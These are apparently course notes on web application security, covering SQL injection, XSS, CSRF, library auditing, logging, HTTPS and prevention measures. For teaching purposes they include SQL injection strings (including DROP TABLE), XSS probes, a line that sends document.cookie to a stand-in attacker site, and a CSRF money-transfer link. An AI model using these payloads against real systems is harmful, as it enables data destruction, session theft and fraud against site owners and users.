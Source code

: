 ### Star of Security

![star](../img/star.png)

### Injections

* Most common Attack
* Injecting code to another piece of code
* Most famous: SQL Injection
* https://www.hacksplaining.com/exercises/sql-injection
```txt
' or 1=1--
The above in Password field so that it will return True
'; DROP TABLE users; --
```
```sql
CREATE TABLE sqlinjection (
  id serial PRIMARY KEY,
  email text UNIQUE NOT NULL
)

INSERT INTO sqlinjection (email) VALUES ('lol');

--Example of sql injection
INSERT INTO sqlinjection (email) VALUES (''; DROP TABLE sqlinjection; --);

-- means comment everything after it
```
* https://github1s.com/aneagoie/security-client-exercise/blob/HEAD/index.html
* https://github1s.com/aneagoie/security-server-exercise/blob/HEAD/server.js
```js
<script>alert('boom')</script>
```
* Scripts injected into the DOM via script tags in innerHTML are not run at the time they are injected
  * Inline scripts are run at the time the original page is parsed
```js
<img src="/" onerror = "alert(1);">
```
* On the other hand, images injected into the DOM are loaded at that time, and if the loading fails, then the onerror event handler is called 
* But Images are loaded
* https://github1s.com/aneagoie/security-client-exercise/blob/HEAD/script.js#L2
* Use **createTextNode instead of innerHTML**

#### 3 ways to prevent Injection
1. Sanitize input: For data validation, only allow user to enter data of expected type(like text, email etc)
2. Parametrize Queries: Give only parameters 
3. Knex.js or other ORMS

### 3rd Party Libraries

* Library you can trust
* Go to Github and check their stars and forks
```sh
npm install -g nsp
# use sudo if you lack permission
nsp check # audit package.json

npm install -g snyk
synk test # audit node_modules directory
```

### Logging

* With good Logging, we would be able to find issues quickly
```sh
npm i winston
npm i morgan
```
```js
const morgan = require('morgan')

app.use(morgan('combined')); // or 'tiny'
```
* http://expressjs.com/en/resources/middleware/morgan.html
* https://github1s.com/aneagoie/security-server-exercise/blob/HEAD/server.js#L18-L19
* https://www.npmjs.com/package/winston
* Never log out system errors to Front-end

### HTTPS Everywhere

* SSL/TLS Certificates
* Encrypts the info between client and server
* To get HTTPS
  * Let's Encrypt(https://letsencrypt.org/): Free
  * Github Pages
  * Cloudfare
  
### XSS & CSRF

* XSS: Cross Site Scripting
  * Whenever an Application includes untrusted data in a new Web page without proper validation or escaping
  * Updating a Web page with User supplied data using JS
  * Allows Attacker to execute scripts in a victim's browser
  * Example of blog post in which attacker uses comments to include js code
  * Used for **session hijacking**
```js
window.location = 'haxxed.com?cookie=' + document.cookie
// haxxed.com is a bad website
// Send the cookie from your browser
```
  * To prevent this, sanitize the inputs
* CSRF: Cross Site Request Forgery
  * Create a bad url that has malicious code in it
```js
<a href="http://netbank.com/transfer.do?acct=AttackerA&amount=100">Read more!</a>
// Click on a link to send money
// Here get request and query parameters are used, instead we can also use post request and various other things
```
* We can set headers in our endpoints to make it secure
  * For ex, in twitter you can't send document.cookie to other sites due to Security Content Policy
```js
app.get('/', (req, res) => {
  res.cookie('session', '1', { httpOnly: true, })
  res.cookie('session', '1', { secure: true })
  res.set({
    'Content-Security-Policy': "script-src 'self' 'https://apis.google.com'"
  })
  res.send('Hello World!')
})
// Only places js to be run is self: localhost and google apis
// There are npm packages where this is done automatically
```

#### To Prevent XSS & CSRF

* Sanitize input
* No eval()
* No document.write()
* Content Security Policy
* Secure + HTTPOnly Cookies